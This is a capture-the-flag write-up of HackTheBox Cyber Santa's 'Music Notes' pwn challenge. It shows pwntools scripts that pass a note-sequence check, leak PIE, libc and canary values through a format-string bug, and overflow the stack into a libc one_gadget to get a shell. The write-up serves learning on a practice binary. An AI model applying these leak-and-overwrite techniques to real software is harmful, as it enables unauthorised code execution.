

# HTB - Cyber Santa - Music Notes

## Category: Pwn

#### Writeup by canopus

## Security Mitigations
By running `checksec --file=./music_notes` we can see that the binary oddly enough has all security mitigations enabled:


## Running the Binary
When we run the binary we are prompted with an ASCII art of a guitar and the program asks us to choose the correct Note:


After fiddling with the binary it was apparent that we had to select the correct sequence of notes in order to get to the next step.

## Getting the binary to run with the included libc
We were provided with the libc library that the program on the remote server uses.
We can use [`pwninit`]([GitHub - io12/pwninit: pwninit - automate starting binary exploit challenges](https://github.com/io12/pwninit)) to patch the binary and also download the appropriate linker. 

## Static Analysis
Ghidra's decompiler could not identify the correct order for the pseudo-code so i ended up using IDA Free. We find 3 interesting functions besides `main`. 

`setup()`: Sets the streams to `unbuffered` and also creates an `alarm` signal to be triggered in 127 seconds.

`banner()`: Prints the ASCII art 

Upon first inspection the `sheet()` function takes the user input and checks the notes.

We find a reference to a `notes[]` array and the contents are `DBAGD`, which are the notes we have to select in order to pass the notes test.


So i wrote a function in the solution script that receives a line and replies with the correct note:

```python
def sheet(io: tube):
    notes = "DBAGD"

    for i in range(5):
        io.recvuntil("Choose note:\n")
        a = io.recvline().split()[1].decode()
        io.recvuntil("> ")

        if a == notes[i]:
            io.sendline("1")
        else:
            io.sendline("2")
```

## The vulnerability
After passing the notes test we are prompted to enter our name and then a gift we want from Santa


However if we look at the decompiled code we immediately spot 2 major problems:

```c
1. read(0, user_in, v7 - 1);
2. printf("\n[*] So, your name is: ");
3. printf(user_in);
4. printf(aWhatANiceNameT);
5. read(0, buf, 110uLL);
6. puts(asc_13F8);
7. return __readfsqword(0x28u) ^ v12;
```

On line 3 there is a Format String Vulnerability that we can leverage to leak information from the stack. 

And on line 5 there is a stack smashing Vulnerability, the buffer it self is only 40 bytes long. This means that we can redirect code execution if we successfully overwrite the Instruction Pointer


## Approach
First of all we have to know what type of data can we leak from the stack and where do these items reside, so i wrote a simple fuzzer to run the program, send a single input and then print what the output was.

```python
def fuzz():
	context.log_level = 'critical'
	for i in range(1, 200):
		io = start()
		sheet(io)
		io.recvuntil("> ")
		io.sendline(f"%{i}$p")
		io.recvuntil("So, your name is: ")
		print(f"{i} => {io.recvline().decode()}", end='')
		io.close()
```

And the output was the following (I've redacted some of the output):

```bash
...
2 => 0x7ff7e07348c0
...
19 => 0x560479000e17
...
31 => 0xd71a285a778cf900
```

The address on line 2 seems like a `libc` address, the address on line 19 may be a `PIE` address and the latter one is the first plausible `Canary` we can leak, meaning it just may be this stack frame's canary. 

Okay let's investigate:

I wrote the following chunk of python code to send the above `printf` parameters and print the output. 

**Note:** Since this `printf` is executed only once, we have to leak all the data we can with different parameters.

```python
io = start()
sheet(io)
io.recvuntil("> ")
io.sendline(f"%19$p-%31$p-%2$p")
io.recvuntil("So, your name is: ")
leaks = io.recvline().rstrip(b"\n").decode().split("-")

pie_leak = int(leaks[0], 16)
canary = int(leaks[1], 16)
libc_leak = int(leaks[2], 16)
# stack_leak = int(leaks[3], 16)

# log.success(f"Leaked Stack Address: {hex(stack_leak)}")
log.success(f"Leaked Libc: {hex(libc_leak)}")
log.success(f"Leaked PIE address: {hex(pie_leak)}")
log.success(f"Leaked Canary: {hex(canary)}")
pause()
```

Now if we run the script and use `pwntools' gdb.debug()` function we can see the memory mappings and also see our leaked addresses.

Leaks:


Since the offsets are fixed the only thing we have to do, to determine them are to subtract the leaked address from the random base. (Provided that the corresponding offset exists server-side).

Memory mappings at runtime:


The `PIE` base for the binary is `0x55cbaa400000` so the offset is `0x55cbaa400e17 - 0x55cbaa400000 = 0xe17`
Same goes for the `libc` offset: `0x7fad5f3b48c0 - 0x7fad5efc7000 = 0x3ed8c0`

Keep in mind that those `printf` parameters may return `(nil)` remotely because the stack differs from the local one. (In another format string challenge I had to try different parameters until I found a parameter that existed both locally and remote).

## Confirming the Canary Leak
Our canary leak is `0xb7692cb7a06fd200` which is pretty accurate because a canary is always 8 bytes long and always ends with `0x00`, but how can we check it?. We are still in the GDB session so lets continue to the part where the Canary is checked. 


The canary is loaded and checked against the real one, if they match the program resumes execution as normally. 


We see that the leaked canary is loaded correctly into memory.

With the above leaks we can calculate the base addresses of both the binary and the libc, and we can also overflow the stack without being detected. So whats next?

## Exploit
We cannot overwrite the `GOT` table because we have `Full RELRO`. 
We could try a `ret2libc` attack, but also this wont work due to the program removing 48 bytes from the stack and also moves the stack pointer halfway through our input:


These 6 pop instructions will pop everything from the stack and the next `ret` instruction will return to the address just bellow the `rbp`. This is with a fully saturated payload, so basically we only have 1 usable address, the stored return address. 

We have to get a shell with just returning into 1 address with no prior setup...Hmm...

A One Gadget will do the trick!

A One Gadget is a set of instructions preset in `libc` that execute `execve()` with out any need for setting it up. (no ROP Chain Required)

To see available One Gadgets we can use a tool called `one_gadget`:


Since we know the base of libc, we can send a payload to fill up the buffer, then put the Canary in place, and finally overwriting the return pointer with the base address of libc plus the one gadget offset. 

I am using `pwntools' flat()` function to make the padding easier. I chose the 2nd OG because it seemed simpler in terms of constraints that the first one. (although the first one worked as well)

```python
	payload = flat({
        40: pack(canary),
        104: pack(libc.address + 0x4f432)
    })
```

Sending the payload and switching to an interactive mode, to find a working shell.



This was my 2nd ever Format string challenge in 2 days and I'm enjoying it more than I probably should :D 